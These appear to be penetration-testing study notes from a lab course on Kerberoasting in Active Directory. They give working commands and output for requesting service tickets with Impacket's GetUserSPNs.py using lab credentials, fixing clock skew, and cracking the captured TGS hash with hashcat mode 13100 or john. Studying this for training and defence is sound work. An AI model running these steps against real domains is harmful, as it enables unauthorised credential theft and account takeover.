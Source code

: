- The TGT - Ticket Granting Ticket is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or TGS.
- The TGS - Ticket Granting Service is requested by users who want to use a service. These tickets allow services to verify the user's identity.

> Source: HTB Academy

## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  
  ```bash
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```

  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate
- `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`

        ```bash
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat (for it to work I needed to have 4gb on my vm)
  ```bash
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```bash
- Crack the hash with john
  - Alternatively we can use john
  ```bash
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```
